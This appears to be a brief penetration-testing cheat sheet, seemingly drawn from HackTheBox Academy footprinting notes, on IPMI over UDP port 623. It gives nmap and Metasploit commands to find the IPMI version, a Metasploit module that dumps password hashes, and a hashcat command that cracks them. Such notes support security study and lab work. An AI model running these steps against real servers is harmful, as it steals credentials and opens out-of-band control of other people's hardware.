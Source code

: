 # 623 UDP - IPMI 

UDP/623

> IPMI is a series of specifications that provide standardized interfaces to the so-called “platform management” services. In this context, the term “Platform Management” refers to monitoring hardware (system temperatures, fans, power supplies and so forth), their control (booting and shutting down the server) and the documentation (logging) of “out-of-range” states. IPMI was developed by Intel, Hewlett Packard, NEC and Dell.
>
> https://www.thomas-krenn.com/en/wiki/IPMI_Basics

## Detect Version

```
$ sudo nmap -sU --script ipmi-version -p 623 <target>

msf6 > use auxiliary/scanner/ipmi/ipmi_version 
```

## Dumping Hashes

```
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
```

Crack hash

```
$ hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

## Reference
+ https://www.thomas-krenn.com/en/wiki/IPMI_Basics
+ Hackthebox Academy - Footprinting - IPML